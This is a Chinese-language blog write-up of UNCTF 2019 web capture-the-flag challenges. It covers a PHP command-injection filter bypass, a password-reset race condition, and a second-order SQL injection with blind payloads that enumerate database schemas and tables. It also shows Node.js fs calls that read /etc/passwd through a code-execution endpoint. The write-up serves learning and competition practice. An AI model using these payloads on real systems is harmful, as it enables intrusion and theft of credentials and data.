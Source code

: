date: 2020-04-20
categories:
- 比赛
tags:
- wp
- ctf
title: unctf2019
---
# unctf2019

## bypass

```php

<?php
    highlight_file(__FILE__);
    $a = $_GET['a'];
    $b = $_GET['b'];
 // try bypass it
    if (preg_match("/\'|\"|,|;|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $a))
        $a = "";
        $a ='"' . $a . '"';
    if (preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $b))
        $b = "";
        $b = '"' . $b . '"';
     $cmd = "file $a $b";
      str_replace(" ","","$cmd"); 
     system($cmd);
?>
```



用`a=\&b=\`来逃脱引号

用?来匹配,但是隐藏文件是无法显示的要自己在前面加一个.

`file "\" -f "  \"`

最后在` http://101.71.29.5:10054/.F1jh_/h3R3_1S_your_F1A9.txt `里找到flag

`unctf{86dfe85d7c5842c5c04adae104193ee1}`



## NSB RESET PASSWORD

题目说是重置密码,刚开始我想的是越权

后面搞了好久都不行。后面试着弄了一下发现一个验证码可以多次用.

我就猜有可能是条件竞争

先注册一个账号用收到的验证码重置，然后再用admin账号请求重置密码

然后直接跳到修改密码的界面,修改一下就出来了



 flag{175f3098f80735ddfdfbd4588f6b1082} 



## 帮赵总征婚

盲猜sql注入

转义:`',",\,#`

还给了我们一个phpinfo?????

我也想帮赵总征婚啊，可是我没机会

remember_me 是否可以注入?





## inject twice

题目是sql-lab的源码

二次注入点

```php
if (isset($_POST['submit']))
{
	
	
	# Validating the user input........
	$username= $_SESSION["username"];
	$curr_pass= mysql_real_escape_string($_POST['current_password']);
	$pass= mysql_real_escape_string($_POST['password']);
	$re_pass= mysql_real_escape_string($_POST['re_password']);
	
	if($pass==$re_pass)
	{	
		$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
		$res = mysql_query($sql) or die('You tried to be smart, Try harder!!!! :( ');
		$row = mysql_affected_rows();
		echo '<font size="3" color="#FFFF00">';
		echo '<center>';
		if($row==1)
		{
			echo "Password successfully updated";
	
		}
		else
		{
			header('Location: failed.php');
			//echo 'You tried to be smart, Try harder!!!! :( ';
		}
	}
	else
	{
		echo '<font size="5" color="#FFFF00"><center>';
		echo "Make sure New Password and Retype Password fields have same value";
		header('refresh:2, url=index.php');
	}
}
?>
```



但是得到admin账号后,并没有得到flag,估计要把数据库给溜一圈。

黑名单:`or, `

注册一个`hello\`的账号,就可以用,currentpass来注入,但是环境炸了,我sleep了一下就奇奇怪怪了

//////////////???????????????????

currentpass=`/**/or/**/1-- a`

数据库名` or (SELECT substr(hex(group_concat(schema_name)),1,1) FROM information_schema.schemata)=char(54)-- a`

information_schema,metinfo,mysql,performance_schema,security,sys

表:

`GROUP_CONCAT(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA=database()`

security:emails,fl4g,referers,uagents,users

列名

fl4g:f1ag

最后的flag` UNCTF{585ae8df50433972bb6ebd76e3ebd9f4}`





## checkin 

又是一个vue应用

![image.png](http://ww1.sinaimg.cn/large/006pWR9agy1g8cz6r1f4pj30ep0d2wfe.jpg)

在代码中发现

/calc: 可以命令执行,但是却没有办法找到有效的利用方式

后端是node.js

version: v10.12.0 

cwd:/usr

/usr目录

 bin,games,include,lib,local,sbin,share,src 

res.end(require('fs').readFileSync('/etc/passwd').toString())

require('fs').readdirSync.('/etc/passwd').toString()

在根目录下找到flag

  flag{0e4d1980ef6f8a81428f83e8e1c6e22b} 

最后还是晚了一分钟

看来改天要看看nodejs的东东?

